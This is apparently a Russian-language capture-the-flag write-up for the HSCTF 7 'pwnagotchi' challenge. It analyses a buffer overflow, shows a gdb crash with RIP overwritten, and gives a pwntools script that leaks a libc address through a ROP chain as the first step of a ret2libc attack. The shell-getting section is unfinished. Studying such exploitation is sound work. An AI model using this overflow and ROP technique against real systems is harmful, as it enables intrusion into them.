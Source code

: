 # HSCTF 7

##  pwnagotchi


> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

## Анализ бинарного файла
### file pwnagotchi
```
    pwnagotchi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
                interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
                BuildID[sha1]=f8c34ef43ba5a8fbce8b89987797d88f7adbb31f, not stripped
```
### checksec pwnagotchi
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Итак, что мы имеем: 64-битный исполняемый ELF файл, отсутствует стековая канарейка и сегмент текста программы в памяти расположен по статическому адресу. 

##  Как работает программа
### ./pwnagotchi
```
    Enter your pwnagotchi's name: 
    admin

    \ (•-•) /
    
    admin is not happy!
```
Админ несчастлив. Программа принимаем наш ввод и печатает его. Посмотрим глубже.
### Декомпилирование с Ghidra
![](decompile_main.png)

Можно заметить, что программа уязвима к переполнению буфера, строки 6 и 18 это подтверждают. Попробуем перезаписать адрес возврата для функции main, открываем gdb.
```
    gdb-peda$ r
    Starting program: /home/white/Desktop/pwnagotchi 
    Enter your pwnagotchi's name: 
    AAAAAAAAAAAAAAAAAAAAAAAAAA

    \ (•-•) /

    AAAAAAAAAAAAAAAAAAAAAAAAAA is not happy!

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x0 
    RDX: 0x0 
    RSI: 0x7fffffffb9a0 ('A' <repeats 26 times>, " is not happy!\n")
    RDI: 0x7ffff7fa44c0 --> 0x0 
    RBP: 0x4141414141414141 ('AAAAAAAA')            // Если мы можем перезаписать RBP и мы не ограничены в длине
    RSP: 0x7fffffffe050 --> 0x0                     // вводимой строки, мы точно можем перезаписать RIP
    RIP: 0x414141414141 ('AAAAAA')                  // Действительно, мы это сделали.    
    R8 : 0xffffffff                                 // RIP перезаписан нашим вводом: 'A' = 0x41
    R9 : 0x29 (')')
    R10: 0x7fffffffe034 ('A' <repeats 26 times>)
    R11: 0x246 
    R12: 0x400700 (<_start>:	xor    ebp,ebp)
    R13: 0x7fffffffe120 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x414141414141
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffe050 --> 0x0 
    0008| 0x7fffffffe058 --> 0x7fffffffe128 --> 0x7fffffffe426 ("/home/white/Desktop/pwnagotchi")
    0016| 0x7fffffffe060 --> 0x100040000 
    0024| 0x7fffffffe068 --> 0x400846 (<main>:	push   rbp)
    0032| 0x7fffffffe070 --> 0x0 
    0040| 0x7fffffffe078 --> 0x6dd3503f33091595 
    0048| 0x7fffffffe080 --> 0x400700 (<_start>:	xor    ebp,ebp)
    0056| 0x7fffffffe088 --> 0x7fffffffe120 --> 0x1 
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000414141414141 in ?? ()
```
##  Планирование Атаки
Настало время планирования. Мы можем перезаписывать RIP, но при этом у нас имеется NX бит, делающий стек неисполяемым. Предлагаю провернуть атаку re2libc, но есть проблема, которую необходимо решить перед проведением атаки: **необходимо узнать версию libc на сервере**. Для этого сделаем искусственную утечку адресов libc, а затем опеределим версию библиотеки с помощью этих адресов.

##  Перчая часть:    Утечка libc
```python
    from pwn import *

    p = process("./pwnagotchi")             # To work locally
    #p = remote("pwn.hsctf.com", 5005)      # To work on the server

    pop_rdi = p64(0x00000000004009f3)       # We are looking for a gadget for payload
                                            # In radare2, this is done like this: /R pop rdi
    getegid_got = p64(0x601048)             # Getegid function address in GOT table
                                            # In gdb, this is done like this: 
                                            # x/i <getegid_call_address>
    puts = p64(0x00000000004007f2)          # Calls to the puts function in a text segment

    offset = 8 * 2 + 4                      # Offset to RIP
    payload = "A" * offset + pop_rdi + getegid_got + puts
    p.sendline(payload)                     # Payload Departure
    print p.recvuntil("s not happy!\n")     # Start reading after the given line
    leak = p.recvline().strip()             # Save read line
    leak = binascii.hexlify(leak)           # Convert string characters to hexadecimal numbers
    print ("Leak is: " + leak)              # Libc leak output
```
Не забываем, что у нас little endian, поэтому адрес утечки будет **побайтово в обратном поряде**.

##  Вторая часть:   Определение версии libc
Для этого воспользуемся сайтом [libc database](https://libc.nullbyte.cat/). Вводим имя функции, для которой искали адрес, и ее адрес. Если вариантов слишком много, находим еще функции и сопоставляем результаты, чтобы ограничить круг поиска.

##  Третья часть:   Получение шелла или re2libc во всей красе
**Загрузка...**

